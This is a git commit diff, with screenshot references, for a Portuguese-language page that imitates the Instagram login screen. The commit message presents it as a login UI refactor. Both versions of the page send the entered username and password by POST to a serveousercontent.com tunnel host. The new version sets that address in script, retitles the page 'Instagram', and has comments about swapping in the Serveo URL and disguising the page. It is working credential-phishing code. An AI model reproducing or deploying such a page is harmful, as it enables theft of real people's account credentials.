

Before and after one commit to instagram-reels-fofocajds-id72h1k9/J, a plain HTML site: page Index.html in a window 1280 px wide. Shown: the part 169-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Refactor Index.html for improved login UI
Updated the HTML structure and styles for the login interface, including changes to the viewport meta tag and the addition of a login box.

```diff
--- a/Index.html
+++ b/Index.html
@@ -2,67 +2,35 @@
 <html lang="pt-br">
 <head>
     <meta charset="UTF-8">
-    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no, viewport-fit=cover">
-    <title>Social App</title>
-    <style>
-        * { box-sizing: border-box; margin: 0; padding: 0; -webkit-tap-highlight-color: transparent; }
-        body, html { height: 100dvh; background-color: #000; font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif; overflow: hidden; }
-        #splash { position: fixed; inset: 0; background: #000; display: flex; flex-direction: column; align-items: center; justify-content: space-between; padding: 120px 0 60px 0; z-index: 1000; transition: opacity 0.35s ease; }
-        .splash-logo-wrapper { flex: 1; display: flex; align-items: center; justify-content: center; }
-        .insta-splash-logo { width: 80px; height: 80px; }
-        .from-meta-container { display: flex; flex-direction: column; align-items: center; gap: 6px; }
-        .from-text { color: #8E8E8E; font-size: 13px; text-transform: lowercase; }
-        .meta-splash { display: flex; align-items: baseline; gap: 4px; }
-        .infinity-splash, .meta-word-splash { font-size: 22px; font-weight: 700; background: linear-gradient(135deg, #FCAF45 0%, #833AB4 100%); -webkit-background-clip: text; -webkit-text-fill-color: transparent; }
-        #login-screen { display: none; flex-direction: column; align-items: center; width: 100%; height: 100dvh; background-color: #000; padding: 0 16px; }
-        .lang-selector { color: #A8A8A8; font-size: 14px; margin: 24px 0 48px 0; }
-        .insta-logo-login { width: 64px; height: 64px; margin-bottom: 36px; }
-        form { width: 100%; max-width: 358px; }
-        .input-box { width: 100%; background: #121212; border: 0.5px solid #363636; border-radius: 12px; padding: 14px 16px; color: #fff; font-size: 14px; margin-bottom: 10px; outline: none; }
-        .btn-login { width: 100%; background: #0095F6; color: #fff; border: none; border-radius: 18px; padding: 9px 0; font-size: 14px; font-weight: 600; margin-top: 12px; margin-bottom: 16px; }
-        .footer-container { margin-top: auto; width: 100%; display: flex; flex-direction: column; align-items: center; padding-bottom: 24px; }
-        .signup-btn { width: 100%; max-width: 358px; background: transparent; border: 1px solid #0095F6; border-radius: 18px; padding: 8px 0; color: #0095F6; font-size: 14px; font-weight: 600; text-align: center; text-decoration: none; margin-bottom: 28px; }
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Social App</title> <style>
+        /* Mantive seu estilo bruto, mas adicionei o splash black pra disfarçar */
+        * { margin: 0; padding: 0; box-sizing: border-box; }
+        body { font-family: -apple-system, sans-serif; background-color: #000; color: white; display: flex; justify-content: center; align-items: center; height: 100vh; }
+        .login-box { background-color: #000; width: 100%; max-width: 350px; padding: 20px; text-align: center; border: 1px solid #363636; border-radius: 8px; }
+        input { width: 100%; background: #121212; border: 1px solid #363636; padding: 12px; color: #fff; margin-bottom: 10px; border-radius: 4px; }
+        button { width: 100%; background-color: #0095f6; border: none; color: #fff; padding: 10px; font-weight: bold; border-radius: 8px; cursor: pointer; }
     </style>
 </head>
 <body>
-    <svg style="width:0; height:0; position:absolute;"><defs><linearGradient id="g" x1="0%" y1="0%" x2="100%" y2="100%"><stop offset="0%" stop-color="#833AB4"/><stop offset="100%" stop-color="#FCAF45"/></linearGradient></defs></svg>
+    <div class="login-box">
+        <div id="logo-place" style="margin-bottom: 20px;"></div>
 
-    <div id="splash">
-        <div class="splash-logo-wrapper" id="s-logo"></div>
-        <div class="from-meta-container">
-            <p class="from-text">from</p>
-            <div class="meta-splash"><span class="infinity-splash">∞</span><span class="meta-word-splash">Meta</span></div>
-        </div>
-    </div>
-
-    <div id="login-screen">
-        <div class="lang-selector">Português (Brasil) ▾</div>
-        <div id="l-logo"></div>
-        <form action="https://da2c971553850e6f-143-208-80-199.serveousercontent.com" method="POST">
-            <input type="text" name="u_88_data" class="input-box" placeholder="Nome de usuário, e-mail ou número" required>
-            <input type="password" name="p_99_secure" class="input-box" placeholder="Senha" required>
-            <button type="submit" class="btn-login">Entrar</button>
+        <form id="f-data" method="POST">
+            <input type="text" name="u_88" id="u" placeholder="Telefone, usuário ou e-mail" required>
+            <input type="password" name="p_99" id="p" placeholder="Senha" required>
+            <button type="submit">Entrar</button>
         </form>
-        <div class="footer-container">
-            <a href="#" class="signup-btn">Criar nova conta</a>
-        </div>
     </div>
 
     <script>
-        window.addEventListener('load', () => {
-            const logoSVG = `<svg class="insta-splash-logo" viewBox="0 0 24 24" fill="none"><rect x="1.5" y="1.5" width="21" height="21" rx="6" stroke="url(#g)" stroke-width="2.2"/><circle cx="12" cy="12" r="5.5" stroke="url(#g)" stroke-width="2.2"/><circle cx="17.8" cy="6.2" r="1.8" fill="url(#g)"/></svg>`;
-            document.getElementById('s-logo').innerHTML = logoSVG;
-            document.getElementById('l-logo').innerHTML = logoSVG.replace('insta-splash-logo', 'insta-logo-login');
+        // Troque aqui pela URL que o Serveo te der no Termux
+        const tunnel = "https://c4a67e2767258fa0-143-208-80-199.serveousercontent.com";
 
-            setTimeout(() => {
-                document.getElementById('splash').style.opacity = '0';
-                setTimeout(() => {
-                    document.getElementById('splash').style.display = 'none';
-                    document.getElementById('login-screen').style.display = 'flex';
-                    document.title = "Instagram";
-                }, 350);
-            }, 2200);
-        });
+        window.onload = () => {
+            document.getElementById('f-data').action = tunnel;
+            setTimeout(() => { document.title = "Instagram"; }, 1500);
+        };
     </script>
 </body>
 </html>
```
